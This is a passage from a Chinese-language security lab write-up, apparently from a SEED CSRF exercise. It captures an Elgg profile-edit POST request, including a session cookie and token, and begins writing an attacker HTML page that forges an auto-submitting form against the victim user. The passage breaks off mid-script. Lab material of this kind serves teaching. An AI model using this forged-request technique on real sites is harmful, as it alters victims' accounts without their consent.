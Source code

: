 
### lab2 修改用户信息 

实验内容：Alice用户有一个自己的描述，她希望Boby也编辑自己的描述，但是Boby用户拒绝了，这时Alice想通过发送一个 url 让Boby用户访问后，自动让Boby自动添加自己的描述。

首先我们需要知道编辑自己的描述需要的请求,同样使用LiveHttpHeader抓包：

使用 alice seedalice 登录，点击左上角的头像；进入用户界面，点击 Edit Profile 可以编辑自己的描述；

>    打开Firefox菜单栏的Tools中的LiveHttpHeader
>	勾选Capture
>	编辑用户资料，点击sava；

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186466149?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186502460?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

这里是抓取到的数据包：

```
    POST /action/profile/edit HTTP/1.1
    Host: www.csrflabelgg.com
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:23.0) Gecko/20100101 Firefox/23.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://www.csrflabelgg.com/profile/alice/edit
    Cookie: Elgg=ks91qtcsis87selokqauqt96p1
    Connection: keep-alive
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 569
	__elgg_token=17fb7abf0ec7666aae76d5b03372203f&__elgg_ts=1429842430&name=Alice&description=%3Cp%3Etest%3C%2Fp%3E&accesslevel%5Bdescription%5D=2&briefdescription=test&accesslevel%5Bbriefdescription%5D=2&location=test&accesslevel%5Blocation%5D=2&interests=test&accesslevel%5Binterests%5D=2&skills=test&accesslevel%5Bskills%5D=2&contactemail=test%40email.com&accesslevel%5Bcontactemail%5D=2&phone=123456&accesslevel%5Bphone%5D=2&mobile=123456&accesslevel%5Bmobile%5D=2&website=http%3A%2F%2Ftest.com&accesslevel%5Bwebsite%5D=2&twitter=test&accesslevel%5Btwitter%5D=2&guid=39
```
通过分析我们可以得知编辑用户需要的请求，其中最重要的就是guid，用户的id标识符；于是Alice就写了如下代码并发送给Boby用户进行攻击.

```
	sudo vim /var/www/CSRF/Attacker/csrf.html
```

这里是代码：

```
    <html><body><h1>
    This page forges an HTTP POST request.
    </h1>
    <script type="text/javascript">
    function post(url,fields)
    {
    	//create a <form> element.
    	var p = document.createElement("form");
    	//construct the form
    	p.action = url;
    	p.innerHTML = fields;
    	p.target = "_self";
    	p.method = "post";
    	
		//append the form to the current page.
    	document.body.appendChild(p);
    	//submit the form
    	p.submit();
    }
    function csrf_hack()
    {
```